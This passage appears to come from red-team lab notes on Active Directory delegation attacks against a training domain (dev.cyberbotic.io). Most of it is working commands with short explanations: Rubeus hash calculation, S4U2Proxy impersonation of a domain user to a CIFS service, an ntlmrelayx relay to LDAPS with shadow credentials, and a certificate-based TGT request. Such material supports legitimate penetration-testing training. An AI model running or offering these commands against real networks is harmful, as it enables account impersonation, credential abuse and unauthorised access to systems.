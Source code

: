    PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /domain:dev.cyberbotic.io /user:PVWUMPYT$ /password:'4!t1}}I_CGJ}0OJ'
    
    [*] Action: Calculate Password Hash(es)
    
Then perform the S4U2Proxy to request service tickets of your choosing.

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:PVWUMPYT$ /impersonateuser:nlamb /msdsspn:cifs/wkstn-1.dev.cyberbotic.io /aes256:46B94228F43282498F562FEF99C5C4AF67269BE5C8AD31B193135C7BD38A28A2 /nowrap
    
Don't forget to remove the fake computer account.

The shadow credentials option will automatically dump a certificate file for you.

    attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t ldaps://10.10.122.10 --shadow-credentials -smb2support --http-port 8888

It can be converted to ccache format to use with Impacket, or base64 encoded to use with Rubeus.

    attacker@ubuntu ~> cat ROsU1G59.pfx | base64 -w 0
    MIII3Q[...snip...]YFLqI=
    
Since this is a certificate, we use it to request a TGT first which can then be used for S4U2Self.

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:MIII3Q[...snip...]YFLqI= /password:wBaP2YhsR7RgY0MZ6jwk /nowrap
    
    [*] Action: Ask TGT

Ensure the keys are deleted after the attack.
















    
